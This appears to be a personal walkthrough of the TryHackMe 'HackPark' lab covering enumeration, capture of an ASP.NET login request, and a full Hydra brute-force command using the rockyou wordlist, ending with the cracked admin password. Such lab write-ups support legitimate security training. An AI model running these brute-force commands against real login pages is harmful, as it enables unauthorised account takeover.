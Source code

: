 [TryHackMe \| HackPark](https://tryhackme.com/room/hackpark)

---
# Enumeration
## Nmap
```
nmap -p- 10.10.158.222
```

## Port 80 - Webserver
![[Pasted image 20251018151941.png]]

# Whats the name of the clown displayed on the homepage?
The hint indicates that we have to conduct a reverse image search of the image, a quick google search will provide sites like: tinyeye, etc. Paste the image and sources of other matches will be there
![[Pasted image 20251018152626.png]]
The Clown itself is from the movie IT, with the name: Pennywise

# Using Hydra to brute-force a login
![[Pasted image 20251018152750.png]]
The login page can be found at the URL: [Title Unavailable \| Site Unreachable](http://10.10.205.233/Account/login.aspx?ReturnURL=/admin/)

We have seen that the user "Administrator" created the clown post, so we can assume that that is a user which we can use to log into the website
Lets give it a try with Hydra
## What request type is the Windows website login form using?
1. We can inspect the login page using the firefox inspect feature of if we used burpsuite to capture the packet
![[Pasted image 20251018153257.png]]
We can also go in the request of the packet to see the full payload that we can use for Hydra
![[Pasted image 20251018155434.png]]

```
__VIEWSTATE=YDG4yvPxsI%2FrkHv%2BytjYF3gyLeQKch33DAhPlARC03EXcitJ8FQqPBAOYWWH%2BTwUBvOe9la0g%2BlgWMl3uzRSUANGcJ%2BoG04yDaEwPXUtJ7VSLlzUecxApyFCH95f%2F3zuTuUC8u2wvQ4qR%2FxLEiE0WNQuDpvbplBGdRA1qkYfNUI4tdlAbgqeVS4mvR%2B55SVn9GxLm0AzyScOSgQiZfbGq4FRMr1cGaiV3ZrvuATvH97TPjuSBeDyVIo4YbW3XiAYd34iFnmSPivFC%2FIt%2FBBrN3SKaOSyWPVKbO%2FBxaVRzaChAdFVBhVdEX0dhHDyne7IEaCqOsWyPsnLSss5iQ5LOqjd%2FasZHdRbp56BT0y06Idq7gU4&__EVENTVALIDATION=C%2Ba9uGa5lKAY3aX0i53V929ygcyRI0wSsXwFeqqUquOzRI8B3qDGsxiF7N02GETZgpLOfIJHP2gB6J9BCwdQx%2BqNOyejkDcTfUPZhblhNxkgfn1lqyWkA9RNNshY2DkDpUMOCe52ql2bQ4s6fF9smHx4RSo1a%2F7L8Yw6VWl99JHdTkww&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
## Cracking POST Request Login Page with Hydra (http-post-form)
```
hydra -l <user> -P <password.txt> <ip-target> http-post-form "header_file_name:request:error_notif"

# Command

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```
### Complete Hydra Command 
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/Account/login.aspx:__VIEWSTATE=GlE2yCmLJhjxMS3WAapWzHpHopOnSZe%2Bql42iFWRXoiZ5H%2B8ev8wIrptaXJve3Sbd6pT%2FrwUgyiQoljyTpvaSFmerFfikAhX%2B0x7wPKeGvX%2Bln5s3lF2MiRyzfhkETMzMVqmG9YOF%2BAbgUUrv5BaI3M%2BnQEoVdHs68l%2BWv%2Fl1Kju7ufm&__EVENTVALIDATION=fHY6mqK6KeT8pJYrkCm%2FDIV5hhJF6aZ7UbhYd3Y4cdb0CgsyhEzYd6Pa1y8%2F463qYWZXFr0uMjTAP81waQE2U5kWlkKKjrEi8KYqWJBk0C%2F0Wmoo%2B0GtbYNAYGwQh%2F5bdiyauLB7eVBmo%2F%2BGKpFUGFB5GFJyiAvLS78nzJwIsoRgpDZY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

![[Pasted image 20251018160029.png]]

### Password
```
login: admin   password: 1qaz2wsx
```
